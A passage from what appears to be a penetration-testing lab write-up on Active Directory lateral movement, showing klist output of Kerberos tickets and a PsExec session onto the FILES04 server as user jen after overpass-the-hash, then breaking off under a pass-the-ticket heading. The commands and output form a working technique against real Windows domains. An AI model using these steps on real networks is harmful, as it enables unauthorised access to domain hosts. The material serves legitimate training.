 ```powershell
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```

**Ticket Analysis:**
- **Ticket #0:** TGT (server: krbtgt/CORP.COM)
- **Ticket #1:** TGS for CIFS service (server: cifs/files04)
- **Encryption:** AES-256-CTS-HMAC-SHA1-96 (modern encryption)
- **Validity:** 10-hour default lifetime with renewal capability

### Leveraging Generated Kerberos Tickets

**PsExec with Kerberos Authentication:**
```powershell
# Navigate to SysInternals tools
PS C:\Windows\system32> cd C:\tools\SysinternalsSuite\

# Execute PsExec using Kerberos tickets (not password hash)
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>hostname
FILES04
```

**Success Indicators:**
- **Kerberos Authentication:** PsExec uses generated TGT instead of password hash
- **Remote Access:** Successfully connects to FILES04 server
- **Identity Verification:** Commands execute as corp\jen
- **No Hash Transmission:** NTLM hash never transmitted over network

### Pass-the-Ticket Attack Extension


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname